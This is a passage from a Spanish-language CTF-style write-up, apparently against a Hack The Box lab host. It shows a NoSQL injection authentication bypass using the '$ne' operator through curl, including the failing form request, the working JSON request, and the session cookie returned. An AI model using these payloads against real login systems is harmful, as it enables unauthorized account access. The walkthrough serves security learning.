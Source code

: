 > [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass)

De primeras podemos probar con 

```ruby
user=admin&password[$ne]=mizuki
```

El **[$ne]** significa **not equal**, y esta funcionando asi: Si el **user** es igual a **admin** y la **password** no es igual a **mizuki**, se estarian cumpliendo las dos condiciones por que el usuario **admin** si es un usuario valido y la contraseña de ese usuario no es **mizuki**, asi que la consulta seria verdadera y nos deberia de iniciar sesion, en mi caso usare curl:

```ruby
curl -v -X POST -d 'user=admin&password[$ne]=mizuki' 10.10.11.139:5000/login 2>&1 | grep -E "Content-Length|Invalid"
```

Pero no funcionara:

```ruby
curl -v -X POST -d 'user=admin&password[$ne]=mizuki' 10.10.11.139:5000/login 2>&1 | grep -E "Content-Length|Invalid"
> Content-Length: 31
< Content-Length: 1040
            Invalid Password
```

Sin embargo podemos indicarle, que el **Content-Type** sea JSON para ver si ahora si funciona, simplemenete al comando le agregamos el **-H** para especificar que el encabezado **Content-Type** sea **application/json** y modificamos el fomato de los datos a enviar:

```ruby
curl -v -X POST -d '{"user": "admin", "password": {"$ne": "mizuki"}}' -H 'Content-Type: application/json' 10.10.11.139:5000/login 2>&1 | grep -E "Content-Length|Invalid"
```

Y ahora dio una respuesta diferente al ```Content-Length: 1040``` y ya no muestra el ```Invalid Password```

```ruby
curl -v -X POST -d '{"user": "admin", "password": {"$ne": "mizuki"}}' -H 'Content-Type: application/json' 10.10.11.139:5000/login 2>&1 | grep -E "Content-Length|Invalid"
> Content-Length: 48
< Content-Length: 2625
```

Eso significa que funciono, en caso de que lo estes haciendo como yo, con curl, puedes modificar el comando y quitarle el grep, asi que quedaria de esta forma:

```ruby
curl -v -X POST -d '{"user": "admin", "password": {"$ne": "mizuki"}}' -H 'Content-Type: application/json' 10.10.11.139:5000/login
```

Ahora saldra mas informacion, y en los encabezados de respuesta podras ver una cookie de sesion:

```ruby
Set-Cookie: auth=%7B%22user%22%3A%22admin%22%2C%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D; Max-Age=900; Path=/; Expires=Wed, 09 Aug 2023 03:24:03 GMT; HttpOnly
```
